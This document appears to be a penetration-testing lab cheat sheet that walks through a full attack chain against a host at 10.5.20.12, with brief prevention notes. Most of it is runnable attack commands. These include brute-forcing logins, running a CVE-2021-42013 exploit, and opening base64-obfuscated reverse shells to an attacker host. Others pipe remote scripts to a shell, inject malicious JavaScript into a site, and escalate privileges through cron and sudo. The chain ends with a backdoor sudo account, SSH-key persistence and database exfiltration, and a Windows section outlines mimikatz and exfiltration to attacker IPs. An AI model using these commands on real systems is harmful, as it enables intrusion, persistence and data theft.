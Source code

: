 ### Nmap Scanning
```bash
target=10.5.20.12
nmap -sSV -p- -Pn -n -O $target -T3
```
#### Prevention
lower the options of scanning to not reveal service information 
use firewall, IDS, DMZ, hide legacy services behind VPN

### Web Content Discovery
```bash
# Directory Enumeration 
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# File Enumeration
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak
```

#### Prevention
disable scanning of directories, and unwanted files

```bash
# httpd.conf
Options -Indexes

# .htaccess 
<FilesMatch "\.(htaccess|htpasswd|env|ini|log|conf)$">
  Order Allow,Deny
  Deny from all
</FilesMatch>
```

### Login Page Bruteforce
```bash
ffuf -u http://10.5.20.12/user/log-in.php -X POST \
-H "Cookie: PHPSESSID=tg6bk1lbboajafumsv03n2t0o8" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "email=FUZZ1&password=FUZZ2" \
-w ./web_users.txt:FUZZ1 -w /usr/share/nmap/nselib/data/passwords.lst:FUZZ2 \
-fc 401
```

#### Prevention
set up tools like fail2ban or iptables recent module, apache mod_evasive 
use modern languages and libraries, good coding practices
timing limit
ideally MFA, CAPTCHA, WAF

### SSH Bruteforce
```bash
hydra -vV -L ./ssh_users.txt -P /usr/share/nmap/nselib/data/passwords.lst ssh://$target
```
#### Prevention
first thing you always do is harden ssh sshd_config on a new machine
ideally use long key with strong ciphers

```
PasswordAuthentication no
PermitRootLogin no
```

### Unsucessful Path Traversal Used to Read /etc/passwd CVE-2021-42013

```bash
wget -O exploit.sh https://www.exploit-db.com/raw/50406
echo $target > targets.txt
bash exploit.sh targets.txt /etc/passwd
```

#### Prevention
use container isolation
non-root user

### RCE Resulting in Reverse Shell CVE-2021-42013
```bash
bash exploit.sh targets.txt /bin/sh id

nc -lvnp 4444
bash exploit.sh targets.txt /bin/sh "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzQ0NDQgMD4mMQ== | base64 -d | bash"
```

#### Prevention
keep up to date your patch management preferably set up automatic updates 

### Shell Upgrade
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
user@remote:~$ ^Z
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
user@local:~$ echo $TERM
user@local:~$ echo $SHELL
user@local:~$ stty raw -echo; fg  #JUST IN CASE, YOUR SHELL IS zsh!!!! OTHERWISE USE THERE COMMANDS SEPARATELY!
user@remote:~$ stty rows ROWS cols COLS

user@remote:~$ export TERM=xterm-256color # the response from previous `echo $TERM`
user@remote:~$ export SHELL=bash # same with `echo $SHELL`
exec /bin/bash # reload bash to apply the TERM variable
```

#### Prevention
use limited shells

### Loud Linux Enumeration - Linpeas
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### Prevention
it is possible to set up traps on the system for example high priledged canary files that track who reads them and executes something that will eg. isolate the user 

### Malicious Javascript Addition
```bash
nano /usr/local/apache2/htdocs/index.php
# add <script src="./js/captcha.js"></script>
echo "<captcha>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js
bash -c 'echo "<base64...>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js'
```

### Cronjob Priviledge Escalation
```bash
nc -lvnp 1337
echo 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzEzMzcgMD4mMQ== | base64 -d | bash' > /usr/local/apache2/htdocs/exploit.sh

chmod +x /usr/local/apache2/htdocs/exploit.sh
echo '' > /usr/local/apache2/htdocs/'--checkpoint=1'
echo '' > /usr/local/apache2/htdocs/'--checkpoint-action=exec=sh exploit.sh'
```

#### Prevention
use proper file permissions, prevent using wildcards, use full paths, low priviledged users

### Loud Linux Enumeration - Linenum
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Sudo Priviledge Escalation
```bash
sudo git help config
!/bin/sh
```

#### Prevention
avoid using NOPASSWD, think about all the options before adding command to sudo (gtfo bins)

### Information Exfiltration + Persistence
```bash
mysqldump -u root webapp | gzip > /opt/database.sql.gz
```

```bash
# 1. Create admin user with sudo privileges
useradd -m -s /bin/bash admin
usermod -aG sudo admin
echo 'admin ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers.d/admin
chmod 440 /etc/sudoers.d/admin

# on kali machine
ssh-keygen -t rsa -b 4096 -f /home/kali/.ssh/majestic -N ""

# 2. Set up SSH key for admin (replace with your actual public key)
mkdir -p /home/admin/.ssh
echo '</home/kali/.ssh/majestic.pub>' > /home/admin/.ssh/authorized_keys
chmod 600 /home/admin/.ssh/authorized_keys
chmod 700 /home/admin/.ssh
chown -R admin:admin /home/admin/.ssh

# 3. Confirm that you are able to login
ssh -i /home/kali/.ssh/majestic admin@10.5.20.12

# 3. Exfiltrate data using scp with a provided private key 
scp -i /home/kali/.ssh/majestic admin@10.5.20.12:/opt/database.sql.gz database.sql.gz
```

### WINDOWS

WKSTN -> DC
———————-
Phish CEO (domain admin) -> weak svc privesc -> run keys persistence -> psexec lateral movement DC (uz si admin na DC) -> mimikatz hashdump
Phish CEO (domain admin) -> psexec lateral movement DC (uz si admin na DC) -> mimikatz hashdump
Phish CEO (domain admin) -> psexec lateral movement DC (uz si admin na DC) -> run keys persistence -> mimikatz hashdump

--> https://github.com/peass-ng/PEASS-ng, https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/ (fileless), process injection, file exfiltration (pii_udaje.xlsx > Compress-Archive > base64 > IWR > randomip/exfil?data=<base64>) 

randomip = digital ocean / apt group ip
